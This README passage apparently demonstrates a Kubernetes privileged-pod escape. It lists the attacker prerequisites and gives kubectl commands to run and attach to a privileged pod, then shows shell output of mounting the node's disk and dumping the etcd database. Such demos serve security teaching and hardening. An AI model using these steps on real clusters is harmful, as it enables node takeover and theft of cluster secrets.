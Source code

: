 
## Quick demo

### Attack description:
- **Setup**: a K8s cluster
- **Attacker**: a user with kubectl access to the cluster
  - permission to run a pod (alternatively: a deployment, a replicaset, a job, etc)
  - permissions enforced by `PodSecurityPolicy` or an admission controller (allowed by default):
    - `securityContext.privileged: true`
    - `hostPath: ...`
    - `hostNetwork: true`
    - `hostPID: true`
    - `hostIPC: true`
  - permissions to do `kube-exec` (not required: alternatively run a [reverse shell pod](https://github.com/BishopFox/badPods/tree/main/manifests/everything-allowed#reverse-shell-pods))
- **Target**: K8s cluster
- **Entrypoint**: Kube API (kubectl)


### Run a privileged pod and connect:
```
k create ns privileged-pods
k -n privileged-pods apply -f pod-privileged.yaml
k -n privileged-pods wait --for=condition=Ready pod/pod-privileged
k -n privileged-pods attach -it pod-privileged -c main
```


### Access node's devices (`privileged: true`)
```
[root@seck8s /]# blkid
/dev/sr0: UUID="2021-10-07-14-09-43-00" LABEL="config-2" TYPE="iso9660"
/dev/sda1: LABEL="cloudimg-rootfs" UUID="65fe7266-66aa-4715-9f5b-d9d61e84dac3" TYPE="ext4" PARTLABEL="root" PARTUUID="00000000-0000-0000-0000-000000000000"
/dev/sda14: PARTLABEL="BSP" PARTUUID="57facf1b-74e9-44bc-8327-81da6971a54f"

[root@seck8s /]# mount /dev/sda1 /mnt
[root@seck8s /]# ls /mnt
artem  bin  boot  dev  etc  home  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var


$ [root@seck8s /]# strings /mnt/var/lib/etcd/member/snap/db
</registry/configmaps/ingress-nginx/ingress-controller-leader
	ConfigMap
ingress-controller-leader
ingress-nginx"
*$7ee985cf-1dfa-497e-bbe7-ae34871846862
(control-plane.alpha.kubernetes.io/leader
{"holderIdentity":"ingress-nginx-controller-7df6786c74-gj5c8","leaseDurationSeconds":30,"acquireTime":"2021-10-07T14:45:10Z","renewTime":"2021-10-13T10:16:19Z","leaderTransitions":0}z
nginx-ingress-controller
Update
...
```

